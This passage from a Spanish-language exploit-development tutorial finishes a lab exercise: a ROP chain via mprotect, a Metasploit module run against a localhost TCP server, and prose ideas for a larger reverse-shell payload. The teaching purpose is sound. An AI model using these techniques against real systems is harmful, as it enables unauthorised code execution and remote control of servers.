4. Luego de una reconexión para restablecer el estado, el siguiente paso es leer la dirección de retorno del frame. Esto nos permite obtener una dirección en la sección de código, a partir de la cuál podemos calcular direcciones de gadgets que utilizaremos para construir una ROP chain.
5. Luego de otra reconexión procedemos a preparar el payload, el cuál será en principio inyectado en el buffer, y preparamos también la cadena que hará al buffer ejecutable.
6. Utilizamos finalmente la primitiva de escritura para inyectar la cadena en el stack. Al momento de finalizar la sesión falsa se ejecutará la cadena, que ejecutará eventualmente el payload del atacante.


Para probar el exploit lo guardamos en `~/.msf4/modules/exploits/` con nombre `6669_exploit.rb` y lanzamos Metasploit. Procedemos entonces como se indica a continuación. Ejecutamos primero `use 6669_exploit` para seleccionar el exploit en cuestión. Deberíamos observar un prompt como el siguiente:



El siguiente paso consiste en la configuración del exploit. Comenzaremos por seleccionar un payload y configurarlo. Como está armado el exploit, el espacio disponible para el payload es muy limitado. En cualquier caso, no es difícil ajustar el exploit para agrandar el espacio disponible en forma significativa, pero eso preferimos solo comentarlo en la próxima sección; por el momento, nos limitaremos a utilizar un payload muy sencillo:



Lo único que hará el payload es mostrar en pantalla un mensaje "Hello, world!". El servidor luego finalizará. Observamos que el exploit requiere también un parámetro RHOST que no hemos configurado. Ejecutamos

```
set RHOST localhost
```

para indicar que el servidor objetivo se encuentra efectivamente en localhost.

Ejecutamos entonces el servidor en alguna terminal y nos preparamos para ejecutar el exploit:




Si ejecutamos el comando `run` deberíamos observar algo como lo siguiente:




Con esto concluimos el desarrollo de nuestro exploit de ejecución de código arbitrario desde cero. El binario del programa objetivo fue compilado sin flags que pudiesen debilitar su seguridad, e incluso así el exploit es totalmente funcional en un Ubuntu 18.04 moderno.


### Puntos extra

1. El exploit que desarrollamos en este ejercicio tiene varias limitaciones. En principio, el tamaño del payload está limitado a 64 bytes, la longitud del buffer que almacena el nombre de usuario. Esto nos limita a payloads muy simples como el que se mostró en el ejemplo. En cualquier caso, no sería difícil ajustar el exploit para inyectar el payload en alguna región más extensa (e.g. lo que queda del stack luego de la cadena ROP). Esto nos permitiría, por ejemplo, inyectar un payload que se conecte a algún host remoto y provea una shell.
2. Otro problema que tiene el exploit es que no es tan robusto como podría ser. En principio, la correcta ejecución depende de que los offsets para realizar los cálculos sean los correctos. Se podrían implementar checks adicionales utilizando la primitiva de lectura para determinar que los offsets son efectivamente los correctos para el entorno que se está atacando (e.g. leyendo los primeros bytes de mprotect para determinar que se tiene la dirección adecuada). 
3. Como habíamos mencionado antes, el exploit falla si alguna de las direcciones que se está intentando leer contiene bytes nulos; si bien la probabilidad de que eso ocurra es baja, no sería imposible ajustar el exploit para adaptarse a estas condiciones, ejecutando la primitiva de lectura en forma sucesiva para lograr leer las direcciones completas.


## Conclusiones

Con este ejercicio pudimos poner juntas todas las técnicas que hemos venido estudiando en los ejercicios anteriores, logrando una explotación exitosa de un servidor TCP partiendo desde cero. Es importante mencionar, sin embargo, que se han tenido que dar las condiciones adecuadas. Se podría decir que la seguridad del programa objetivo es bastante pobre; una pieza de software desarrollada hoy en día, siguiendo las mejores prácticas, "no debería" exponer este tipo de vulnerabilidades. Eso, sin embargo, es responsabilidad humana, con lo cuál siempre existe la ocasional ocurrencia, especialmente en los entornos de software complejos que manejamos hoy en día. En la sección de fuzzing de esta guía estaremos estudiando mecanismos que permiten encontrar problemas de corrupción de memoria en forma automatizada. Los fuzzers son usualmente utilizados para encontrar problemas reales en programas reales (e.g. [50 CVEs in 50 Days: Fuzzing Adobe Reader](https://research.checkpoint.com/50-adobe-cves-in-50-days/)), y las prácticas periódicas de fuzzing son una excelente adición al procedimiento de desarrollo y mantenimiento de software.
